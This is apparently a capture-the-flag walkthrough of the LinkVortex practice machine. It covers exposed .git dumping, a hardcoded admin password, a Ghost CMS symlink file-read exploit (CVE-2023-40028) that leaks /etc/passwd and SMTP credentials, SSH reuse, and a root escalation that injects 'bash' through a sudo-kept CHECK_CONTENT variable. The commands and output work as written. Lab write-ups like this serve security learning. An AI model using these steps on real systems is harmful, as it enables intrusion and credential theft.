

## Reconnaissance

### Port Scanning

```bash
sudo nmap -sC -sV 10.129.231.194
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
```

### Virtual Host Enumeration

Gobuster discovered a subdomain:

```
dev.linkvortex.htb   Status: 200 [Size: 2538]
```

### Directory Enumeration on dev Subdomain

```
/.git                 (Status: 301)
/.git/HEAD            (Status: 200) [Size: 41]
/.git/config          (Status: 200) [Size: 201]
/.git/logs/           (Status: 200) [Size: 868]
/.git/index           (Status: 200) [Size: 707577]
/index.html           (Status: 200) [Size: 2538]
```

The `.git` directory is publicly exposed — a critical misconfiguration.

## Git Dump and Source Code Analysis

The exposed `.git` directory was dumped using **git-dumper**. Inspection revealed the app is running **Ghost CMS 5.58.0**:

```json
"name": "ghost",
"version": "5.58.0"
```

Checking staged changes in the repository:

```bash
git status
```

```
Changes to be committed:
    new file:   Dockerfile.ghost
    modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

```bash
git diff --cached ghost/core/test/regression/api/admin/authentication.test.js
```

```diff
-  const password = 'thisissupersafe';
+  const password = 'OctopiFociPilfer45';
```

A hardcoded password was found in a test file. Testing it against the Ghost admin panel at `http://linkvortex.htb/ghost/`:

```
Email:    admin@linkvortex.htb
Password: OctopiFociPilfer45
```

Login successful.

## Exploitation — CVE-2023-40028 (Arbitrary File Read)

Ghost CMS 5.58.0 is vulnerable to an **arbitrary file read** via symlink injection in a zip archive uploaded through the Labs import feature.

### Building the Exploit

```bash
mkdir -p exploit/content/images/
ln -s /etc/passwd exploit/content/images/test-file.png
zip -r -y exploit.zip exploit/
```

### Uploading

Upload the zip at:

```
http://linkvortex.htb/ghost/#/settings/labs -> Import Content
```



### Reading Files

After uploading, the symlink is resolved and served at the image URL:

```bash
curl http://linkvortex.htb/content/images/test-file.png
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
node:x:1000:1000::/home/node:/bin/bash
```

### Leaking the Production Config

From the `Dockerfile.ghost` found in the source, the config path was known. Reading it:

```
/var/lib/ghost/config.production.json
```

```json
"mail": {
  "transport": "SMTP",
  "options": {
    "service": "Google",
    "host": "linkvortex.htb",
    "port": 587,
    "auth": {
      "user": "bob@linkvortex.htb",
      "pass": "fibber-talented-worth"
    }
  }
}
```

## Initial Access — SSH as bob

The SMTP credentials were reused for SSH:

```bash
ssh bob@linkvortex.htb
```

```
bob@linkvortex:~$ whoami
bob
```

## Privilege Escalation — Root via sudo Bypass

### Checking Sudo Permissions

```bash
sudo -l
```

```
User bob may run the following commands on linkvortex:
    env_keep+=CHECK_CONTENT
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

### Analyzing the Script

```bash
cat /opt/ghost/clean_symlink.sh
```

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ]; then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK; then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)'; then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT; then
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

### The Vulnerability

The line `if $CHECK_CONTENT;` executes the value of `CHECK_CONTENT` as a command. Since `env_keep+=CHECK_CONTENT` is in the sudoers defaults, any value can be passed — including `bash`.

### Exploitation

```bash
ln -sf /blabla /tmp/test.png
CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/test.png
```

```
Link found [ /tmp/test.png ] , moving it to quarantine
root@linkvortex:/home/bob# whoami
root
```

Root shell obtained.
